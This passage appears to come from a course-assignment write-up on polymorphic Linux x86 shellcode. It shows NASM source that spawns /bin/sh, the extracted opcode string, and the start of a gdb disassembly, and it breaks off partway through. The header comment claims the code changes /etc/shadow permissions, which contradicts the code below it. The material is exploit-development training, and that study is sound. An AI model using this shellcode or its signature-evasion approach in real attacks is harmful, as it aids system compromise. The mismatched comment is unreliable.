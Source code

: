 #### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/execve-stack-bin-sh.nasm">here</a>

Below is an explanation of the changes.

~~~ nasm
;execve-stack-bin-sh.nasm
;this changes the permissions for /etc/shadow to 666
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;29 bytes
global _start

section .text

_start:
  xor ebx, ebx ;zero out EBX
  push ebx ;push 0 on to the stack
  pop eax ;pop 0 off the stack and zero out EAX
  push eax ;null terminate
  mov bl, 6 ;arithmetic for AL register
  add bl, bl ;arithmetic for AL register
  dec bl ;arithmetic for AL register
  push word 0x6873 ;hs
  push word 0x2f2f ;//
  push 0x6e69622f ;nib/
  mov eax, esp  ;stack pointer
  xchg eax, ebx ;EAX now contains the correct syscall value, 11.  
                ;EBX contians the stack pointer
  int 0x80
~~~

#### Compiling the Polymorphic Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh execve-bin-sh-stack
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x31\xdb\x53\x58\x50\xb3\x06\x00\xdb\xfe\xcb\x66\x68\x73\x68\x66\x68\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe0\x93\xcd\x80"
[+] Size: 29 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~

#### Disassembly of the Original Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./execve-bin-sh-stack-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	xor    ecx,ecx
   0x08048082 <+2>:	mul    ecx
   0x08048084 <+4>:	push   ecx
   0x08048085 <+5>:	push   0x68732f2f
~~~